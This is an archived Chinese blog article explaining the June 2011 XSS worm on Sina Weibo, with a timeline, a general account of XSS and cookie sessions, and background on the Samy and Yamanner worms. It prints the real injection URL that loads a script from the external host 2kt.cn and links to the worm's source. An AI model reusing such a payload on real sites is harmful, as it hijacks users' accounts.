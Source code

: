 .. _articles4914:

新浪微博的XSS攻击
=================

2011年6月28日 `陈皓 <http://coolshell.cn/articles/author/haoel>`__

今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。

事件的经过线索如下：

-  20:14，开始有大量带V的认证用户中招转发蠕虫
-  20:30，2kt.cn中的病毒页面无法访问
-  20:32，新浪微博中hellosamy用户无法访问
-  21:02，新浪漏洞修补完毕

 

|新浪微博XSS事件|

新浪微博XSS事件

 

在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。

首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。

再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。

当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么\ `IE6是史上最不安全的浏览器 <http://coolshell.cn/articles/3921.html>`__\ ，没有之一。只要你没有在用IE6，应该没有这些问题。

XSS攻击有两种方法，

-  一种就像SQL Injection或CMD
   Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。

-  另一类则是来来自外部的攻击，主要指的自己构造XSS
   跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如
   社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax
   要发起跨站调用是非常困难的（你可能需要hack浏览器）。

这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star
的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn短链接服务，将链接指向：

http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update

注意，上面URL链接中的其实就是

。

攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn
的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。

其它
^^^^

-  初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
-  史上最著名的XSS攻击是Yahoo Mail
   的\ `Yamanner <http://en.wikipedia.org/wiki/Yamanner>`__\ 蠕虫是一个著名的XSS
   攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript
   代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript
   可以的向Yahoo Mail 系统发起ajax
   请求，从而得到用户的地址簿，并发送攻击代码给他人。
-  为什么那个用户叫hellosamy，因为\ `samy <http://en.wikipedia.org/wiki/Samy_(XSS)>`__\ 是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
-  关于攻击的代码在这里：\ `06.28\_sina\_XSS.txt <http://coolshell.cn//wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip>`__
   （编码风格还是很不错的）

（全文完）

.. |新浪微博XSS事件| image:: /coolshell/static/20140921221716127000.png
.. |image7| image:: /coolshell/static/20140921221716235000.jpg

.. note::
    原文地址: http://coolshell.cn/articles/4914.html 
    作者: 陈皓 

    编辑: 木书架 http://www.me115.com